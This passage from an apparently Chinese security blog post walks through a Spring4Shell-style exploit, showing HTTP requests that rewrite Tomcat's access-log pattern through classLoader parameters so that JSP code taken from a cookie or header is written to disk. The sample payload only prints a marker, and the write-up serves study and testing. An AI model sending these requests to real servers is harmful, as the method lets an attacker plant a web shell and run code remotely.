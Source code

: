 总之，需要避开直接对于百分号的写入，下文尝试了有三种方式去定义 pattern。

#### [](#221-%E4%BB%8E-header-%E4%B8%AD%E8%AF%BB%E5%8F%96)2.2.1 从 header 中读取

由上文可知，`%{xxx}c` 项的作用是：从 HTTP Cookie 中读取 xxx 项，并写入到 log 文件中。因此数据包定义为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Dc<br>``` |

最后的 HTTP 请求为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```http<br>GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Dc HTTP/1.1<br>Host: IP:PORT<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>Accept-Encoding: gzip, deflate<br>Accept-Language: zh-CN,zh;q=0.9,en;q=0.8<br>Cookie: remember-me=YWRtaW46MTY0OTIxMzE4ODQyMTpmYzJiZTA2NWMyYzFlOGQwOTUzMWJkOGQxZmMzYmQ1Yg; cmd=<%out.println(11223344);%><br>Connection: close<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302146926.png-water_print](assets/1699408077-2fd78c810970706cab9a3ba5c320630f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302146926.png-water_print")

由于 `;` 作为 Cookie 的分隔符，因此写入的内容会被截断。（不知哪位师傅有解决办法，可以分享下）：`<%out.println(11223344)`

#### [](#222-%E4%BB%8E-header-%E4%B8%AD%E8%AF%BB%E5%8F%96)2.2.2 从 header 中读取

由上文可知，`%{xxx}i` 项的作用是：从 HTTP Header 中读取 xxx 项，并写入到 log 文件中。因此数据包定义为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=2<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Di<br>``` |

最后的 HTTP 请求为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```http<br>GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Di HTTP/1.1<br>Host: IP:PORT<br>cmd: <%out.println("11223344");%><br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>Accept-Encoding: gzip, deflate<br>Accept-Language: zh-CN,zh;q=0.9,en;q=0.8<br>Cookie: remember-me=YWRtaW46MTY0OTIxMzE4ODQyMTpmYzJiZTA2NWMyYzFlOGQwOTUzMWJkOGQxZmMzYmQ1Yg<br>Connection: close<br>``` |
